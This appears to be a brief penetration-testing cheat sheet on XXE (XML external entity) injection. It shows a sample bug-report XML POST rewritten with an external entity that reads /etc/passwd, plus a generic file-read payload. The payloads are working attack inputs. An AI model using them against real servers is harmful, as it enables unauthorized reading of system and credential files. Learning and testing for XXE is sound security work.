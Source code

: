 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example

If you have an XML POST that looks like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can change it to look something like this. `!DOCTYPE` - declares a set of rules about what can appear in the xml. `!ENTITY` - is similar to defining a variable that you can call on later in the file. `SYSTEM` - tells the XML parser to retrieve the entity from an external source allowing for XXE. Lastly, we can input the variable we defined earlier with `!ENTITY` to a textfield. It would look something like this. `<text>&variable;<\text>`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver.

### Basic File Read

Basic file read looks like this.

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<any>
<title>test</title>
  <textoutput>&file;</textoutput>
</any>
```
